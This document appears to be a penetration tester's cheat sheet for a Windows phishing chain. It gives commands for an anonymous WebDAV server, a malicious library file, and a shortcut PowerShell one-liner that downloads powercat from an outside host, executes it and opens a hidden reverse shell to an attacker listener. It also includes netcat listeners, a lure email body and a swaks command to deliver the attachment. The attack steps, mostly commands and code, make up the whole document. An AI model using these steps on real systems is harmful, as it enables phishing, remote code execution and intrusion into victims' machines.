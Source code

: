 ## 🔹Phishing 

### 1) Enable /webdav Server
```
pip3 install wsgidav
pip3 install cheroot
mkdir webdav
sudo wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root webdav/
```

### 2) Create 'config.Library.ms'
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.239</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

### 3) Create lnk file (in WINDOWS) with PS payload (powercat)
```
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -w hidden -ep bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.155/powercat.ps1');powercat -c 192.168.45.155 -p 443 -e powershell"

# Powercat
https://github.com/besimorhino/powercat/blob/master/powercat.ps1
```

### 4) Staging 
- Place 'powercat.ps1', 'shortcut.lnk', 'config.Library.ms' & 'body.txt' in /Webdav
- nc -lnvp 1337 (from /WebDav to get 'powercat.ps1')
- nc -lnvp 443 (to catch reverse shell when .lnk gets clicked)
- 'body.txt' has to sound convincing
```
 Hi,

 please click on the attachment
```

### 4) Execution (require mail credentials)
```
jim@relia -> has to be legit recipient
swaks -t jim@relia.com --from test@relia.com --attach @config.Library-ms --server 192.168.186.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap

```



